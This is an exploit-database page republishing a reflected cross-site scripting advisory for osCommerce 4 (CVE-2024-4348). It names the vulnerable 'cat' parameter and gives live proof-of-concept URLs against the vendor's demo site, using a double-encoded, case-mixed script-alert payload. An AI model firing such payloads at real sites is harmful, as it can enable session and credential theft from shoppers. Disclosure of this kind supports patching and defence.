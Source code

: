 ```yaml
---
title: osCommerce 4 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:178375&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-05-01
fetch_date: 2025-10-06T17:15:48.313658
---
```


# osCommerce 4 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for osCommerce 4 Cross Site Scripting CVE-2024-4348

2024-04-30 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:178375
# Exploit Title: osCommerce 4 - Reflected XSS
# Exploit Author: skalvin
# Date: 22/04/2024
# Vendor: osCommerce ltd.
# Vendor Homepage: https://www.oscommerce.com/
# Software Link: https://demo.oscommerce.com/
# Demo Link: https://demo.oscommerce.com/furniture/
# Tested on: Windows 11 Pro
# Impact: Manipulate the content of the site
# CVE: CVE-2024-4348
# VDB: VDB-262488
# CWE: CWE-79 / CWE-74 / CWE-707
# CAPEC: CAPEC-10 / CAPEC-209 / CAPEC-250
# ATT&CK: T1059.007

## Description

Attacker can send to victim a link containing a malicious URL in an email or instant message
can perform a wide variety of actions, such as stealing the victim's session token or login credentials

GET parameter 'cat' is vulnerable to RXSS

Path: /furniture/catalog/all-products

https://demo.oscommerce.com/furniture/catalog/all-products?cat=[XSS]
https://demo.oscommerce.com/watch/catalog/all-products?cat=[XSS]

## Live POC:

https://demo.oscommerce.com/furniture/catalog/all-products?cat=1&bhl4n%2522%253e%253cScRiPt%253ealert%25281%2529%253c%252fScRiPt%253eiyehb=1

https://demo.oscommerce.com/watch/catalog/all-products?cat=1&bhl4n%2522%253e%253cScRiPt%253ealert%25281%2529%253c%252fScRiPt%253eiyehb=1

[-] Done
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)